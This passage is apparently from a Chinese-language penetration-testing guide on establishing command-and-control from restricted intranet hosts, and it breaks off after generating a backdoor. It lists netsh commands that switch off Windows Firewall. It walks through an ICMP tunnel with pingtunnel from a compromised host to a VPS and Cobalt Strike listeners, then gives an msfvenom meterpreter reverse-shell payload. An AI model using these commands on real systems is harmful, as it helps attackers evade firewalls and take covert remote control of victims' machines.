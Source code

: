 2）出站过滤上线：隧道技术（反向）、正向连接、关闭&amp;删除&amp;替换（防火墙策略）<br/> ——
3）简单的内网环境：防火墙开关，删除规则，替换程序（域控没有设置组策略防火墙同步）
<pre><code>Windows防火墙命令：

查看当前防火墙状态    netsh advfirewall show allprofiles
关闭防火墙           netsh advfirewall set allprofiles state off
开启防火墙           netsh advfirewall set allprofiles state on
恢复初始防火墙设置    netsh advfirewall reset
启用桌面防火墙        netsh advfirewall set allprofiles state on
设置默认输入和输出策略 netsh advfirewall set allprofiles firewallpolicy allowinbound,allowoutbound
如果设置为拒绝使用blockinbound,blockoutbound</code></pre>



### 2、代理技术

---


### 4、使用场景

> 
<h2>二、示例</h2>
<h3>1、不出网上线</h3>
<h4>1）理论：</h4>
1、域控通过组策略设置防火墙规则同步后，域内用户主机被限制TCP出网（出站规则），通过入站取得SHELL权限后，需要对其进行上线控制
考虑：正向连接、IP隧道技术
————
2、若入站被限制
考虑：反向连接、IP隧道技术
————

协议的向下兼容（Tcp被禁，就测试ICMP协议）
————
ICMP协议项目：<br/> https://github.com/esrrhs/spp<br/> https://github.com/bdamele/icmpsh<br/> https://github.com/esrrhs/pingtunnel
 ————
<h4>2）示例：</h4>
<pre><code>CS-ICMP 上线

VPS:
./pingtunnel -type server
肉鸡：
管理器运行（ICMP程序）
pingtunnel.exe -type client -l 127.0.0.1:6666 -s 192.168.46.66 -t 192.168.46.66:7777 -tcp 1 -noprint 1 -nolog 1（此处，监听本地6666端口，并转发到指定ip的7777端口）

CS:
监听器1：127.0.0.1 6666
监听器2：192.168.46.66 7777
生成监听器1的Stager后门肉鸡执行</code></pre>

<pre><code>MSF 上线

生成后门：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=3333 -f exe &gt; xd.exe
